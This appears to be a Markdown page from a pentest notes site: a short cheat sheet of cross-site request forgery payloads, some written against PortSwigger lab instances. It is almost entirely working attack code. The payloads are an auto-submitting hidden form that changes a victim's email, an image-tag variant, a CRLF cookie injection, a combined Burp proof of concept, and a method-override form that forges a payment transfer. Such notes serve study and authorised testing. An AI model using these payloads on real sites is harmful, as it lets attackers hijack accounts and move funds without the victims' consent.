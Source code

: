 ```yaml
---
title: "CSRF"
description: ""
summary: ""
date: 2023-09-07T16:06:50+02:00
lastmod: 2023-09-07T16:06:50+02:00
draft: false
weight: 800
toc: true
sidebar:
  collapsed: true
seo:
  title: "" # custom title (optional)
  description: "" # custom description (recommended)
  canonical: "" # custom canonical URL (optional)
  robots: "" # custom robot tags (optional)
  noindex: false # false (default) or true
---
```

## Basic CSRF 

```sh
<html> 
<body> 
<form action="https://vulnerable-website.com/email/change" method="POST"> <input type="hidden" name="email" value="pwned@evil-user.net" /> </form> 
<script> document.forms[0].submit(); </script> 
</body> 
</html>
```

- Even possible to do so : 

```sh
<img src="https://vulnerable-website.com/email/change?email=pwned@evil-user.net">
```

- If you have an input that is reflected as cookie , you can try to do CRLF attack to inject a cookie to the victim like this : 
```sh
/?search=test%0d%0aSet-Cookie:%20csrfKey=YOUR-KEY%3b%20SameSite=None
```

- It's possible to combine to request this way for your POC : 
```sh
<html>
  <!-- CSRF PoC - generated by Burp Suite Professional -->
  <body>
    <form action="https://0a6b00eb049ba97a82a8f11d00dc00ea.web-security-academy.net/my-account/change-email" method="POST">
      <input type="hidden" name="email" value="hopddde2&#64;test&#46;fr" />
      <input type="hidden" name="csrf" value="rw096v1qAyqMjnPQNuFoOTr9WovKHmtn" />
      <input type="submit" value="Submit request" />
    </form>
    <img src="https://0a6b00eb049ba97a82a8f11d00dc00ea.web-security-academy.net/?search=test%0d%0aSet-Cookie:%20csrfKey=j2VuedM3I17WVZZSmL1VSsrL2LsUqZv9%3b%20SameSite=None" onerror="document.forms[0].submit()">
  </body>
</html>

```

- Method Overwrite Symphony : 
Even with if `get`is not allowed you can still override with _method
```sh
<form action="https://vulnerable-website.com/account/transfer-payment" method="POST">
<input type="hidden" name="_method" value="GET">
<input type="hidden" name="recipient" value="hacker">
<input type="hidden" name="amount" value="1000000">
</form>
```

- Or like this : 

```sh
<script> 
document.location = "https://YOUR-LAB-ID.web-security-academy.net/my-account/change-email?email=pwned@web-security-academy.net&_method=POST"; </script>
```
`Other frameworks support a variety of similar parameters.`  

- Free Poc Tool : 
https://security.love/CSRF-PoC-Genorator/
